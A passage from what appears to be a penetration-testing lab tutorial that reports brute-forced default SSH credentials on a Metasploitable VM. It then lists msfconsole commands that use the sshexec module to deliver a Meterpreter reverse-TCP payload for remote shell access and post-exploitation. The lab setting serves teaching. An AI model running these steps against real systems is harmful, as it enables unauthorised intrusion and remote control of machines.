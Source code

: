 ![](../images/exploiting_ssh_using_bruteforce_4.png)
In my case I am using metasploitable with default login crudential, that why get the result as **username= msfadmin** and **password= msfadmin**.

From here, one way is we have ssh-crudentials and using them we can connect to the target via any ssh-client but using this we had to manually perform command for each task injecting payload and other post exploitation stuff. So automate the command execution task and integrate the ssh connection with metasploit framework we are using the **sshexec** module `(which can exploit the User code execution vulnerability also)` of metasploit framework for connecting via ssh. It makes running **custom payloads**, **privilege escalation**, and **post-exploitation** tasks easier and more efficient.

```
msfconsole
msf > search multi/ssh/sshexec
msf > use exploit/multi/ssh/sshexec
msf exploit(multi/ssh/sshexec) > options
#set the payload options to a 32-bit payload as our target metasploitable is 32-bit vm
msf exploit(multi/ssh/sshexec) > set payload linux/x86/meterpreter/reverse_tcp
msf exploit(multi/ssh/sshexec) > show targets
#set the target to x86(as this payload is compatible to 32-bit target)
msf exploit(multi/ssh/sshexec) > set target 1
#set the target ip, username and password we get from bruteforcing
msf exploit(multi/ssh/sshexec) > set RHOSTS 192.168.1.103
msf exploit(multi/ssh/sshexec) > set USERNAME msfadmin
msf exploit(multi/ssh/sshexec) > set PASSWORD msfadmin
#verify the options field
msf exploit(multi/ssh/sshexec) > show options
#run the exploit
msf exploit(multi/ssh/sshexec) > exploit
```